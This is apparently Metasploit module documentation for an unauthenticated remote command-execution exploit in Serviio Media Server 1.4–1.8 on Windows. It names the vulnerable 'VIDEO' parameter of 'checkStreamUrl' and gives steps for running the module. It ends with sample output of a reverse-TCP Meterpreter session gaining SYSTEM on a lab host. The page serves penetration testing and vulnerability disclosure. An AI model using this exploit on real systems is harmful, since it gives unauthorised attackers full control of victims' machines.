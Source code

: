 ## Description

  This module exploits an unauthenticated remote command execution vulnerability in the console component of [Serviio Media Server](http://serviio.org/) versions 1.4 to 1.8 on Windows operating systems.

  The console service (on port 23423 by default) exposes a REST API which which does not require authentication.

  The 'action' API endpoint does not sufficiently sanitize user-supplied data in the 'VIDEO' parameter of the 'checkStreamUrl' method. This parameter is used in a call to cmd.exe resulting in execution of arbitrary commands.

## Vulnerable Application

  Serviio is a free media server. It allows you to stream your media files (music, video or images) to renderer devices (e.g. a TV set, Bluray player, games console or mobile phone) on your connected home network.

  Serviio is based on Java technology and therefore runs on most platforms, including Windows, Mac and Linux (incl. embedded systems, e.g. NAS).

  This module has been tested successfully on Serviio Media Server versions 1.4.0, 1.5.0, 1.6.0 and 1.8.0 on Windows 7.

  Installers:

  * [serviio-1.8-win-setup.exe](http://download.serviio.org/releases/serviio-1.8-win-setup.exe)
  * [serviio-1.7-win-setup.exe](http://download.serviio.org/releases/serviio-1.7-win-setup.exe)
  * [serviio-1.6-win-setup.exe](http://download.serviio.org/releases/serviio-1.6-win-setup.exe)
  * [serviio-1.5-win-setup.exe](http://download.serviio.org/releases/serviio-1.5-win-setup.exe)
  * [serviio-1.4-win-setup.exe](http://download.serviio.org/releases/serviio-1.4-win-setup.exe)

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/windows/http/serviio_checkstreamurl_cmd_exec`
  3. Do: `set rhost [IP]`
  4. Do: `run`
  5. You should get a session

## Sample Output

  ```
  msf > use exploit/windows/http/serviio_checkstreamurl_cmd_exec 
  msf exploit(serviio_checkstreamurl_cmd_exec) > set rhost 172.16.191.166
  rhost => 172.16.191.166
  msf exploit(serviio_checkstreamurl_cmd_exec) > check
  [*] 172.16.191.166:23423 The target appears to be vulnerable.
  msf exploit(serviio_checkstreamurl_cmd_exec) > set verbose true
  verbose => true
  msf exploit(serviio_checkstreamurl_cmd_exec) > check

  [*] 172.16.191.166:23423 Serviio Media Server version 1.8
  [*] 172.16.191.166:23423 The target appears to be vulnerable.
  msf exploit(serviio_checkstreamurl_cmd_exec) > run

  [*] Started reverse TCP handler on 172.16.191.181:4444 
  [*] Serviio Media Server version 1.8
  [*] Command Stager progress -   7.95% done (7999/100636 bytes)
  [*] Command Stager progress -  15.90% done (15998/100636 bytes)
  [*] Command Stager progress -  23.85% done (23997/100636 bytes)
  [*] Command Stager progress -  31.79% done (31996/100636 bytes)
  [*] Command Stager progress -  39.74% done (39995/100636 bytes)
  [*] Command Stager progress -  47.69% done (47994/100636 bytes)
  [*] Command Stager progress -  55.64% done (55993/100636 bytes)
  [*] Command Stager progress -  63.59% done (63992/100636 bytes)
  [*] Command Stager progress -  71.54% done (71991/100636 bytes)
  [*] Command Stager progress -  79.48% done (79990/100636 bytes)
  [*] Command Stager progress -  87.43% done (87989/100636 bytes)
  [*] Command Stager progress -  95.38% done (95988/100636 bytes)
  [*] Sending stage (957487 bytes) to 172.16.191.166
  [*] Command Stager progress - 100.00% done (100636/100636 bytes)
  [*] Meterpreter session 1 opened (172.16.191.181:4444 -> 172.16.191.166:58474) at 2017-05-05 02:49:39 -0400

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > pwd 
  C:\Program Files\Serviio\bin
  ```
